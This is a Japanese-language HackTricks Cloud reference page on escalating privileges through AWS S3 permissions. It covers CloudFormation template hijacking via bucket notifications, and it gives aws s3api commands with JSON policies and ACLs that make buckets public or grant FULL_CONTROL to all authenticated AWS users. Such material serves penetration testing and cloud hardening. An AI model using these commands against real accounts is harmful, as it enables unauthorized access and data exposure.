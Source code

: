 # AWS - S3 Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

興味深いバケットに対してこれらの権限を持つ攻撃者は、リソースをハイジャックし、権限を昇格させることができるかもしれません。

例えば、"cf-templates-nohnwfax6a6i-us-east-1"という名前のcloudformationバケットに対してこれらの**権限を持つ攻撃者**は、デプロイメントをハイジャックすることができます。アクセスは以下のポリシーで付与できます:
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
そして、ハイジャックが可能なのは、**テンプレートがバケットにアップロードされる瞬間から**、**テンプレートがデプロイされる瞬間までの小さな時間ウィンドウ**があるからです。攻撃者は、自分のアカウントに**lambda function**を作成し、**バケット通知が送信されるとトリガーされる**ようにし、**そのバケットの内容をハイジャック**することができます。

![](<../../../.gitbook/assets/image (174).png>)

Pacuモジュール[`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn__resource_injection)を使用して、この攻撃を自動化できます。\
詳細については、元の研究を確認してください: [https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`, `s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

これらは、**S3にオブジェクトを取得およびアップロードするための権限**です。AWS内（および外部）でいくつかのサービスが、**設定ファイル**を保存するためにS3ストレージを使用しています。\
それらに**読み取りアクセス**を持つ攻撃者は、**機密情報**を見つける可能性があります。\
それらに**書き込みアクセス**を持つ攻撃者は、**データを変更してサービスを悪用し、特権を昇格させようとする**ことができます。\
以下はそのいくつかの例です：

* EC2インスタンスが**ユーザーデータをS3バケットに保存している**場合、攻撃者はそれを変更して**EC2インスタンス内で任意のコードを実行**することができます。

### `s3:PutBucketPolicy`

攻撃者は、**同じアカウントからである必要があり**、そうでない場合はエラー`The specified method is not allowed will trigger`が発生します。この権限を持つことで、攻撃者は自分自身にバケットに対するより多くの権限を付与し、読み取り、書き込み、変更、削除、バケットを公開することができるようになります。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>

## JSON giving permissions to a user and mantaining some previous root access
{
"Id": "Policy1568185116930",
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:root"
},
"Action":"s3:ListBucket",
"Resource":"arn:aws:s3:::somebucketname"
},
{
"Effect":"Allow",
"Principal":{
"AWS":"arn:aws:iam::123123123123:user/username"
},
"Action":"s3:*",
"Resource":"arn:aws:s3:::somebucketname/*"
}
]
}

## JSON Public policy example
### IF THE S3 BUCKET IS PROTECTED FROM BEING PUBLICLY EXPOSED, THIS WILL THROW AN ACCESS DENIED EVEN IF YOU HAVE ENOUGH PERMISSIONS
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

攻撃者はこれらの権限を悪用して、特定のバケットに対して**より多くのアクセスを付与する**ことができます。\
攻撃者は同じアカウントからである必要はないことに注意してください。さらに、書き込みアクセス
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

攻撃者は、これらの権限を悪用して、バケット内の特定のオブジェクトに対するアクセスを増やすことができます。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

これらの権限を持つ攻撃者は、特定のオブジェクトバージョンにAclを設定できると予想されます。
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
